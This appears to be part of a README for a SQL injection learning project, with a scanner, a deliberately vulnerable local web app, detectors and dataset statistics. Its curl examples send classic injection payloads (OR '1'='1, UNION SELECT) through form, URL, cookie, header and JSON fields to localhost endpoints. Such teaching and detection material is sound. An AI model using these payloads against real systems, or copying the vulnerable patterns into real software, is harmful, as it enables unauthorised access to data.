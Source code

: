 ### Running the Main Applications

```bash
# SQL Injection Web Scanner (Port 5000)
python app.py

# Comprehensive Vulnerable Application (Port 5001 or as specified in the file)
cd unsafe_code_examples/python
python sql_injection.py
```

### Testing the Vulnerable Endpoints

```bash
# Test authentication bypass
curl -X POST http://localhost:5001/vulnerable_login \
  -d "username=admin' OR '1'='1&password=password"

# Test search functionality
curl "http://localhost:5001/vulnerable_search?q=test' UNION SELECT 1,2,3,4 --"

# Test user profile endpoint
curl "http://localhost:5001/vulnerable_user/1' OR '1'='1"

# Test cookie-based injection
curl -H "Cookie: session=1' OR '1'='1" http://localhost:5001/vulnerable_cookie

# Test header-based injection
curl -X POST -H "User-Agent: test' OR '1'='1" http://localhost:5001/vulnerable_header

# Test JSON-based injection
curl -X POST -H "Content-Type: application/json" \
  -d '{"user_id": "1 OR 1=1"}' http://localhost:5001/vulnerable_json
```

### Using the Detection Tools

```python
# SQL Injection Detector
python sql_injection_detector.py

# Dataset Summary Tool
python dataset_summary.py
```

## 📊 Dataset Statistics

- **Total Examples**: 20+ (including merged patterns)
- **Programming Languages**: 5 (Python, PHP, Java, JavaScript, C#)
- **Vulnerability Categories**: 15+
- **Payload Types**: 6+
- **Severity Levels**: 3 (Critical, High, Medium)
- **Web Endpoints**: 12 vulnerable endpoints
- **Database Types**: 4 (SQLite, MySQL, PostgreSQL, MongoDB)
